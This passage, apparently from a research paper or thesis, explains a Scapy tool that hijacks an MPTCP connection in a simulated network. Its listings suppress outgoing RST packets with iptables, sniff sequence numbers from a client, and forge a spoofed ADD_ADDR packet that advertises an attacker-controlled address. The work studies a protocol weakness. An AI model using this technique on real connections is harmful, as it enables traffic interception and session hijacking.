 \begin{lstlisting}[language=python, caption=\textit{Disable RST outgoing packets}, label=norst]
execCommand("sudo iptables -I OUTPUT -p tcp --tcp-flags ALL RST,ACK -j DROP", shell = True)
execCommand("sudo iptables -I OUTPUT -p tcp --tcp-flags ALL RST -j DROP", shell = True)
\end{lstlisting}

The Scapy built-in \textit{sniff} function allows to retrieve packets from a specific interface, according to a custom filter function \textit{filter\_source} that inspects the source address. In this case, the \textit{filter\_source} function (whose implementation is omitted) simply checks that the sniffed packet is indeed coming from the client UML by inspecting the source IP. From the packet retrieved in this way (saved into the variable named \textit{pktl}), it is possible to retrieve the IP addresses, ports, SEQ and ACK numbers of the ongoing connection between client and server. The call to the function is shown in listing \ref{sniff1}

\begin{lstlisting}[language=python, caption=\textit{Sniffing a first packet from the client}, label=sniff1]
pktl = sniff(iface=CLIENT_IF, lfilter=lambda p: filter_source(p, CLIENT_IP), count=1)
\end{lstlisting}

The first constructive step of the whole procedure consists in forging of the ADD\_ADDR packet using the method \textit{forge\_addaddr} (Listing \ref{forgeaddaddrfunction}). This function accepts all the parameters required to forge the proper message, including the sniffed SEQ and ACK numbers retrieved from \textit{pktl} and the IP address to be added in the ADD\_ADDR option (\textit{myIP} in this simulation is set to 10.1.1.1).

\begin{lstlisting}[language=python, caption=\textit{forge\_addaddr method}, label=forgeaddaddrfunction] 
def forge_addaddr(myIP, srcIP, srcPort, dstIP, dstPort, sniffedSeq, sniffedAck):
    pkt = (IP(version=4L, src=srcIP, dst=dstIP)/ TCP(sport=srcPort, dport=dstPort, flags="A", seq=sniffedSeq, ack=sniffedAck, options=[TCPOption_MP(mptcp=MPTCP_AddAddr(address_id=ADDRESS_ID, adv_addr=myIP))]))
    return pkt
\end{lstlisting}

Here comes the first consideration about the script design: once the ADD\_ADDR is sent to the client UML, the tool has to be already listening for the MP\_JOIN sent back as a response; in order to make sure this happens, multithreading is used to start looking for the MP\_JOIN packet even before ADD\_ADDR is sent, with the thread named \textit{SYNThread} (listing \ref{capture1}). 


